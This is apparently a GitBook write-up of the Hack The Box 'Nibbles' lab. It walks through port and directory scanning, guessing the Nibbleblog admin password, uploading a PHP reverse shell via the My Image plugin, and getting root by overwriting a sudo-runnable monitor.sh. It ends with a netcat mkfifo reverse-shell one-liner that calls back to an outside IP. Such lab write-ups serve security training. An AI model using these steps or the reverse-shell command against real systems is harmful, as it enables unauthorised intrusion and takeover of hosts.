

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/nibbles-easy
---

# ✅ Nibbles (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Weak password policy and Nibble Blog version is out of dated.

**System Vulnerable:** 10.10.10.75

**Vulnerability Explanation:** The machine use weak password policy which allow us to login as admin and exploit vulnerable of Nibble blog version contain Code Execution which allow us to get foothold on the machine.

**Privilege Escalation Vulnerability:** Misconfigure of File Permission

**Vulnerability Fix:** Implement Strong Password policy and upgrade version of Nibble Blog.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -p- -T4 10.10.10.75                                                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-02 11:35 EDT
Nmap scan report for 10.10.10.75
Host is up (0.043s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

**Port 80/tcp Apache/2.4.18 (Ubuntu)**

By start browsing on port 80, we just see **"Hello world!"**. But checking on source code, we can see interesting comment at the end.&#x20;

.png>)

.png>)

Going through the directory, we can see the webpage. By checking each function of the webpage, it doesn't anything interesting. Let start discover hidden directory.

.png>)

On the webpage, one function redirect to **feed.php**. Let start enumerate with extension txt and php

```
└─$ gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .txt,.php                                                      1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/11/02 12:00:35 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/] 
/feed.php             (Status: 200) [Size: 300]                                             
/admin.php            (Status: 200) [Size: 1401]                                            
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]  
/sitemap.php          (Status: 200) [Size: 401]                                             
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/index.php            (Status: 200) [Size: 2986]                                            
/install.php          (Status: 200) [Size: 78]                                              
/update.php           (Status: 200) [Size: 1622]                                            
/README               (Status: 200) [Size: 4628]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/LICENSE.txt          (Status: 200) [Size: 35148]                                             
/COPYRIGHT.txt        (Status: 200) [Size: 1272]                                              
===============================================================
2021/11/02 12:10:42 Finished
===============================================================
```

By checking on **/README**, we can see the Nibble blog version is **4.0.3.**

.png>)

Searching on google to find public exploit. We can see Arbitrary File Upload. Checking on exploit descript, it requires admin credentials for this.

.png>)

.png>)

## Exploitation

Going to enumerate on **/admin,** we can not see any interesting on this.&#x20;

.png>)

Let start on /admin.php. We can see login webpage, but we don't any credentials. I have tried with&#x20;

```
admin/admin
admin/password
nibles/nibles
admin/nibles
```

and the last one is working.&#x20;

.png>)

.png>)

Next step follow the exploit description _<mark style="color:red;">Plugins > My Image > Configure.</mark>_ Copy PHP reverse shell from webshells directory. Then, replacing IP address with our kali IP address and save it as **image.php** and start netcat listener on port 1234. Let upload our payload and ignore the error.

.png>)

```
nc -lvp 1234
```

.png>)

Going through the link to execute the reverse shell script.&#x20;

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

.png>)

## Privilege Escalation

### Auto script  bash

First the first, run `sudo -l` whether there is any misconfiguration. We can run monitor.sh with NOPASSWD require. Let start enumerate on that file.

.png>)

```
unzip personal.zip
```

After extract personal.zip file, it contains **monitor.sh.** As we have writable permission on monitor.sh file and we can run it as root permission too.

.png>)

Let start modify monitor.sh script with for privilege escalation script.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
<er/personal/stuff$ echo -e '#!/bin/bash\nbash' > monitor.sh                 
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash
bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
root@Nibbles:/home/nibbler/personal/stuff# id     
uid=0(root) gid=0(root) groups=0(root)
```

Other Method, we can use Netcat for reverse shell.

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f' > monitor.sh
```

.png>)
